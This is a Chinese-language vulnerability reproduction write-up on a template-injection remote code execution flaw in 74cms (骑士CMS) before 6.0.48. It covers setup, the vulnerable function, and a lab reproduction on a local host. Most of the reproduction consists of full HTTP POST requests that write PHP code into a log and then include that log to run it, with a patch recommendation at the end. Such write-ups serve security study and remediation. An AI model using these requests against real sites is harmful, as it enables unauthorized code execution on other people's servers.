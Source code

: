 一、骑士CMS简介
=========

骑士人才系统,是一项基于 PHP+MYSQL 为核心开发的一套 免费+开源 专业人才招聘系统，使用了ThinkPHP框架（3.2.3）；由太原迅易科技有限公司于2009年正式推出。为个人求职和企业招聘提供信息化解决方案, 骑士人才系统具备执行效率高、模板切换自由、后台管理功能灵活、模块功能强大等特点，自上线以来一直是职场人士、企业HR青睐的求职招聘平台。经过7年的发展，骑士人才系统已成国内人才系统行业的排头兵。系统应用涉及政府、企业、科研教育和媒体等行业领域，用户已覆盖国内所有省份和地区。2016年全新推出骑士人才系统基础版，全新的“平台+插件”体系，打造用户“DIY”个性化功能定制，为众多地方门户、行业人才提供一个专业、稳定、方便的网络招聘管理平台，致力发展成为引领市场风向的优质高效的招聘软件

二、环境搭建
======

此次采用 windows10+Nginx+MySQL+PHP，使用phpstudy进行的环境配置，注意PHP版本最好使用 PHP 5.5及以上，MySQL版本 5.7.6及以上，我这里使用PHP版本5.4.45

然后这里放一下骑士cms的下载链接:<https://pan.hallolck.com/s/y06I6>

三、安装过程  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-442be82205f8c98a478d628abb48d20f322a1059.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-442be82205f8c98a478d628abb48d20f322a1059.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-8fb62e62638fe2ae78b0e9a582bba47e711c1f2b.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-8fb62e62638fe2ae78b0e9a582bba47e711c1f2b.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d7387724769e2b5c06780d264f037b8f5de68ebb.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d7387724769e2b5c06780d264f037b8f5de68ebb.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-116cf9d59637e279cf1beed20a4c7dfb6de6d023.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-116cf9d59637e279cf1beed20a4c7dfb6de6d023.png)

四、漏洞概述
======

官方公告地址

```php
http://www.74cms.com/news/show-2497.html
```

/Application/Common/Controller/BaseController.class.php文件的assign\_resume\_tpl函数因为过滤不严格，导致了模板注入，可以进行远程命令执行

**影响版本:骑士CMS &lt; 6.0.48&gt;**

五、漏洞复现
======

### 写入日志

POST参数：

```php
http://your-ip/index.php?m=home&amp;a=assign_resume_tpl
POST:
variable=1&amp;tpl=<?php phpinfo(); ob_flush();?>/r/n<qscms/company_show 列表名="info" 企业id="$_GET['id']"/>
```

我们来POST一下看看

```php
POST /74cmsv6.0.20/upload/index.php?m=home&amp;a=assign_resume_tpl HTTP/1.1
Host: 192.168.1.6
Content-Length: 98
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.1.6/74cmsv6.0.20/upload/index.php?m=home&amp;a=assign_resume_tpl
DNT: 1
Connection: close
Cookie: PHPSESSID=vj12p9l3pnqkc09ostum5m7mfu; think_language=zh-CN; think_template=default
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

variable=1&amp;tpl=<?php phpinfo(); ob_flush();?>/r/n<qscms/company_show h="info" id="$_GET['id']"/>
```

可以看到返回了错误，日志已经记录了  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-4fd3b3ddfa4de3562fa8d104fd4f21a4f5aaf50b.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-4fd3b3ddfa4de3562fa8d104fd4f21a4f5aaf50b.png)  
我们来翻一下日志

```php
日志路径: \upload\data\Runtime\Logs\Home
```

成功写入  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-cf107c6247d25577841974570e399666711fd72a.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-cf107c6247d25577841974570e399666711fd72a.png)

接下来我们尝试包含日志，日志名称就是测试当天的年月日

### 包含日志

POST参数：

```php
http://your-ip/index.php?m=home&amp;a=assign_resume_tpl 
POST: 
variable=1&amp;tpl=data/Runtime/Logs/Home/20_12_22.log
```

我们来POST一下看看

```php
POST /74cmsv6.0.20/upload/index.php?m=home&amp;a=assign_resume_tpl HTTP/1.1
Host: 192.168.1.6
Content-Length: 52
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.1.6/74cmsv6.0.20/upload/index.php?m=home&amp;a=assign_resume_tpl
DNT: 1
Connection: close
Cookie: PHPSESSID=vj12p9l3pnqkc09ostum5m7mfu; think_language=zh-CN; think_template=default
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

variable=1&amp;tpl=./data/Runtime/Logs/Home/21_07_01.log
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c26f998261d030de0f01c13e585880c38476f92f.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c26f998261d030de0f01c13e585880c38476f92f.png)

六、修复建议
======

下载官方最新补丁包

```php
http://www.74cms.com/download/index.html
```